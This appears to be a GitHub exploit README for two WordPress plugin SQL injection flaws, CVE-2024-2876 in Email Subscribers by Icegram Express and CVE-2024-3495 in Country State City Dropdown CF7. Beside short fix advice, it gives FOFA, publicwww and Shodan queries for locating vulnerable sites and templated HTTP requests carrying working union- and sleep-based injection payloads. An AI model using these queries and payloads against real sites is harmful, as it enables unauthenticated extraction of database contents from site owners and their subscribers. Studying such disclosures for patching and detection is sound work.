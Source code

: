 ### Description CVE-2024-2876
The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection 
via the 'run' function of the 'IG_ES_Subscribers_Query' class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient 
preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Description CVE-2024-3495
The Country State City Dropdown CF7 plugin for WordPress is vulnerable to SQL Injection via the ‘cnt’ and 'sid' parameters in versions up to, and including, 2.7.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Query CVE-2024-2876
- FOFA : body="/wp-content/plugins/email-subscribers/"
- publicwww : "/wp-content/plugins/email-subscribers/"
### Query CVE-2024-3495
- FOFA : body="/wp-content/plugins/country-state-city-auto-dropdown" && header="HTTP/1.1 200 OK"
- Publicwww : "/wp-content/plugins/country-state-city-auto-dropdown"
- shodan : "http.title:admin-ajax.php"

### Proof of concept CVE-2024-2876
```bash
@timeout: 20s (using burpsuite)
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```
### Proof of concept CVE 2024-CVE-2024-3495
```bash
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=tc_csca_get_cities&nonce_ajax={{nonce}}&sid=1+or+0+union+select+concat(0x64617461626173653a,(select%20md5({{num}})),0x7c76657273696f6e3a,(select%20md5({{num}})),0x7c757365723a,user()),2,3--+-
```

### How to fix ?
- Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19).
- Patchstack users have the option to enable automatic updates specifically for vulnerable plugins.
- Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

### Bounty Info 
https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/
